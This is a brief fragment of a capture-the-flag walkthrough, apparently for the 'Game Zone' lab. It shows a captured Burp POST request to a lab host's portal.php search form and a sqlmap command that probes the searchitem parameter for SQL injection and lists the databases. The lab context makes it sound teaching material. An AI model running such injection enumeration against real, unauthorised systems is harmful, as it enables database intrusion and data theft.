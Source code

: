 
## Using SQLMap
---

Copy the post request from burp

```bash
┌──(kali㉿kali)-[~/thm/Game-Zone]
└─$ cat search.req
POST /portal.php HTTP/1.1
Host: 10.10.233.188
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
Origin: http://10.10.233.188
Connection: close
Referer: http://10.10.233.188/portal.php
Cookie: PHPSESSID=hfp4m5d57ch4asnstemhgek4l3
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

searchitem=1
```

It's using **apache** and **php**, they are usually bundled with **mysql** 

![](/assets/obsidian/be77e013156baa7e12e23745352fe535.png)

Specify `--dbms mysql` to filter unnecessary payloads to make sqlmap faster

```bash
sqlmap -r search.req -p searchitem --dbms mysql --batch --dbs
```

